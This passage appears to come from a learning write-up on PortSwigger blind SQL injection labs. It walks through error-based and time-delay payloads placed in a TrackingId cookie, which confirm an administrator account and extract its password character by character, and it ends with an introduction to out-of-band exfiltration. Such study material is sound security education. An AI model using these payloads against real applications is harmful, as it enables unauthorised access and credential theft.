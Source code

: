 And now we check once more with a invalid SQL query so that we can confirm that error happining from SQLi `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` and error actually occured which enures.

Now let's introduce conditional 
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` Now since 1=1 this executes 1 divided by 0 which gives invalid response.

Now let's optimize it and find for user=administrator
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
if we get the error then it confirms that we have a user named administrator.

Now let's look for password length
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Let's do characterwise password comparison
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

<hr />

`Method: 3` **SQL injection by triggering time delays**

What if the error we getting previously is handled gracefully :'). 

Now since the SQL queries run **synchronously** so we could introduce a sleep mechanism :) something like while trying to compare character wise check and it holds true it goes to sleep for 10 sec. This will introduce delay in response time and we can filter out data.

First We need to determine DB
[Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for Time Delays.

Once found we can move on for Conditional Time delays section in cheatsheet.

Like for postgreSQL 
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

<hr />

`Method: 4` **Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques**

What if the program carries out the queries **asynchronously**.

The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.
